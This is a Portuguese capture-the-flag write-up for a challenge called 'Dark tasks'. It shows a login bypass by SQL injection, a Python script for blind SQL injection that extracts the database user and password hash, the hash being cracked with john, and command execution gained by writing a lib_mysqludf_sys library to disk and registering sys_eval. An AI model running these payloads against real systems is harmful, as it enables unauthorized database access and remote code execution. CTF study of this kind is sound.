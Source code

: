 Dark tasks
==========

Acessando a página http://178.63.58.69:8086/, havia uma imagem e no código-fonte
foi possível visualizar duas mensagens em b64. Ignorando elas, partimos para olhar
o `robots.txt`, o que nos deu uma boa pista:

```
User-agent: *
Disallow: /D4rk_MySQL.php
```

Acessando tal arquivo, notamos que se tratava de um Adminer, algo parecido com
phpmyadmin. O curioso é que ele aceitava fazer login com usuários inexistentes,
contudo sem qualquer privilégio.

Após uma dica do TheZakMan, percebi que havia deixado passar um detalhe na index do site.
A mensagem em b64 indicava uma outra página: `Th3-D4rk-T4sks/`.

Neste dir havia uma tela de login, a qual estava vulnerável a SQL injection.

Com um simples `') or 1=1-- ` foi possível efetuar o login. Olhando os links no meu,
notamos um outro arquivo que era possível injetar SQL (`viewtask.php?id=`). O que
pode nos ajudar descobrir que usuário está sendo usado para acessar o bd do site.

Desenvolvendo um código para ajudar nesse trabalho (não quis usar sqlmap), ficou:

```
import requests
import string
import sys

def do_login():
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/'
	r = requests.post(url, data={'user': "') or 1=1-- "})
	return r

def do_viewtask(p,c):
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/viewtask.php'
	r2 = requests.get(url, params=p, cookies=c)
	return r2.text

def do_query(s,c):
	r2 = do_viewtask({'id': s.encode('base64')}, c)
	return r2.find('viewtask.php?') != -1

r = do_login()

match = ''
for n in xrange(20):
	found = False
	for c in string.digits + '@_*' + string.letters:
		payload = "' or user() like '%s%%' or '0" % str(match+c)
		payload = payload.replace('_', '\_')

		if do_query(payload, r.cookies):
			found = True
			match += c
			print match
			break
	if not found:
		print 'end!'
		break
```

Com esse código identifiquei que o usuário se tratava de `dark`. A partir dai,
foi ler o campo `password` da tabela `mysql.user` referente a este usuário.
Trocando o payload para:

`' or (select password from mysql.user where user = 'dark') like '%s%%' or '0`

Obtive o seguinte hash: `*E56A114692FE0DE073F9A1DD68A00EEB9703F3F1` (41-byte)

O que foi tarefa fácil para o **john**:

```
Loaded 1 password hash (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 4x])
123123           (?)
guesses: 1  time: 0:00:00:00 DONE (Sat Nov 22 09:37:43 2014)  c/s: 1369  trying: 123123 - 888888
```

Agora então voltando para o Adminer, posso logar com `dark/123123` e ver se tem
permissão pra fazer alguma coisa. (Neste ponto, já havia tido a dica do TheZakMan
que havia dito que usou UDF pra resolver) Então fui direto pensar em como jogar uma
**lib_mysqludf_sys.so** lá no servidor. (lib encontrada no google que forneceve varias
funções sys_* para executar comandos no servidor)

Como o servidor não tinha a função `from_base64`, pensei em passar o hex do binário
da lib.

`$ python -c "print open('lib_mysqludf_sys.so').read().encode('hex')"`

E rodando o SQL lá no Adminer:

`select unhex('7f454c4601010100000000000000000...') into dumpfile '/usr/lib/mysql/plugin/sigsegv.so' from dual`

Percebemos que a query foi executada com sucesso! Agora então só bastava criar uma UDF que executasse comando no servidor
que retornasse o output. Então escolhemos a `sys_eval` da lib, e criamos executando:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'sigsegv.so';`

Tornando possível verificar os arquivos no servidor (`ls`), o que logo nos levou a:

`select sys_eval('cat /home/Th3_D@rk_S3cr3t/FL@g_Bala7.txt') from dual`

Que nos deu: FLag(Th3_Gr3@t_7aMaDa)
